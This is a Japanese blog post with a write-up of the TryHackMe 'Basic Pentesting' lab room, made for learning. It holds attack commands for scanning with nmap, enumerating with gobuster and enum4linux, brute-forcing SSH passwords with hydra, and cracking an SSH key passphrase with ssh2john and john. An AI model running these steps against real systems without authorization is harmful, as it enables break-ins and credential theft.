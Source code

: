 ```yaml
---
title: "【THM: TryHackMe】Basic Pentestingを解いてみた【WriteUP】"
date: 2021-03-28T12:50:28+09:00
description:
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- ctf
- tryhackme
- basic-pentesting
- writeup
categories:
- WriteUP
series:
-
image: /posts/2021/03/img/basic-pentesting-thumbnail.png
---
```


## はじめに

今回はTryHackMeのBasic Pentestingを解いてみたので、そのWriteUPを書いていきたいと思います。

自分は約２時間程度で全ての問題を解き終わることが出来ましたので、時間の参考にしてみてください。

## WriteUP

### Find the services exposed by the machine

攻略するマシンのサービスの列挙です。
nmapを使ってポートスキャンをしていきます。

```$:Parrot.bash
nmap -v -p-10000 10.10.xxx.xxx
```

これでポートの列挙が出来ました。

{{< img src="/posts/2021/03/img/Screenshot_20210329_125935.png" >}}

### What is the name of the hidden directory on the web server(enter name without /)?

hidden derectoryを探す問題です。
gobusterを実行してあげます。

```$:Parrot.bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.xxx.xxx
```

無事hidden directoryを見つけることが出来ました。

{{< img src="/posts/2021/03/img/Screenshot_20210329_130518.png" >}}

### User brute-forcing to find the username & password

まずは、ポートスキャンで得た情報から、SMBが動いていることがわかります。
そのため、smbからUsernameを獲得しようと考え、今回はenum4linuxを使用しました。

{{< blogcard title="CiscoCXSecurity/enum4linux: enum4Linux is a Linux alternative to enum.exe for enumerating data from Windows and Samba hosts." url="https://github.com/CiscoCXSecurity/enum4linux" >}}

```$:Parrot.bash
enum4linux -a 10.10.xxx.xxx
```

### What is the username?

enum4linuxからの情報で、２つのユーザーを見つけることが出来ました。

{{< img src="/posts/2021/03/img/Screenshot_20210329_132156.png" >}}

### What is the password?

nmapにてSSHのポートが開いていることが確認できたので、hydraを使ってパスワードのブルートフォースを試していきます。

```$:Parrot.bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.xxx.xxx ssh
```

### Enumerate the machine to find any vectors for privilege escalation

まずは先程獲得した他のユーザのディレクトリを確認し、特権昇格できそうな情報を探していきます。

{{< img src="/posts/2021/03/img/Screenshot_20210329_133606.png" >}}

最終的にpass.bakの中身を確認できればこのRoomは完了しそうだなぁというのを頭にいれつつ、.sshディレクトリの中身を見ていきます。

{{< img src="/posts/2021/03/img/Screenshot_20210329_134120.png" >}}

id_rsaが読み取り可能になっているので、そこから特権昇格を狙っていこうと思います。

### If you have found another user, what can you do with this information?

獲得したid_rsaでssh接続を試みてみます。

{{< img src="/posts/2021/03/img/Screenshot_20210329_134618.png" >}}

しかし、パスフレーズを求められてしまいました。

ここで、SSH2Johnを使って、SSH Key Passwordの解析を試みます。

```$:Parrot.bash
python2 /usr/share/john/ssh2john.py id_rsa > id_rsa_hash.txt
```

```$:Parrot.bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH id_rsa_hash.txt
```

無事パスワードがわかったので、ログインしていきます。

```$:Parrot.bash
ssh -i id_rsa kay@10.10.201.184
```

### What is the final password you obtain?

ログインが出来たので、最終的なフラグをゲットして終わりです。

```$:Remote.bash
cat pass.bak
```

### まとめ

今回はTryHackMeのBasic Pentestingを解いてみました。

これを解く前にLeaning PathのCOMPLETE BEGINNERを全て解いていたので、詰まりそうになったときはヒントを見たり、前の章をさらっと復習をすることをオススメします。
